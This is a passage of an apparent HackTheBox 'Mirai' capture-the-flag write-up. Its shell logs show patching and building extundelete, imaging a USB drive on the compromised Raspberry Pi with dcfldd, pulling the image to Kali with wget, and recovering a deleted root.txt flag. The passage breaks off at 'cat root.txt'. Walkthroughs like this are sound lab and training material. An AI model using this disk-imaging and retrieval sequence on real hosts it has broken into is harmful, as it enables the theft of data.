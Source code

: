 		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/exploit/extundelete/extundelete-0.2.4]
		└─# patch -p1<extundelete-0.2.4-e2fsprogs.patch.txt 
		patching file src/insertionops.cc    
		```
	6. Compile again
		```
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/exploit/extundelete/extundelete-0.2.4]
		└─# ./configure
		Configuring extundelete 0.2.4
		Writing generated files to disk
		
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/exploit/extundelete/extundelete-0.2.4]
		└─# make & make install
		[1] 518198
		make -s all-recursive
		Making install in src
		Making all in src
		  /usr/bin/install -c extundelete '/usr/local/bin'
		```
4. Transfer `/dev/sdb` to `kali`
	1. Create archive of `dev/sdb` 
		```
		root@raspberrypi:/tmp# sudo dcfldd if=/dev/sdb | gzip -1 - | dcfldd of=usbstick.gz
		256 blocks (8Mb) written.
		320+0 records in
		320+0 records out
		
		0+3 records in
		1+1 records out
		```
	5. Transfer & Extract on `kali`
		```
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot]
		└─# wget mirai.htb:9090/usbstick.gz
		
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot]
		└─# gzip -d usbstick.gz 
		
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot]
		└─# file usbstick 
		usbstick: Linux rev 1.0 ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e722026db3c (extents) (huge files)
		```
5. Attempt to recover the deleted file w/ `extundelete`
	1. Attempt to restore everything on the filesystem
		```
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot]
		└─# extundelete --restore-all usbstick 
		NOTICE: Extended attributes are not restored.
		Loading filesystem metadata ... 2 groups loaded.
		Loading journal descriptors ... 23 descriptors loaded.
		Searching for recoverable inodes in directory / ... 
		1 recoverable inodes found.
		Looking through the directory structure for deleted files ... 
		0 recoverable inodes still lost.
		```
	2. View recovered files
		```
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot]
		└─# cd RECOVERED_FILES/
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot/RECOVERED_FILES]
		└─# ls
		root.txt
		┌──(root💀kali)-[~/htb/mirai/10.10.10.48/loot/RECOVERED_FILES]
		└─# cat root.txt 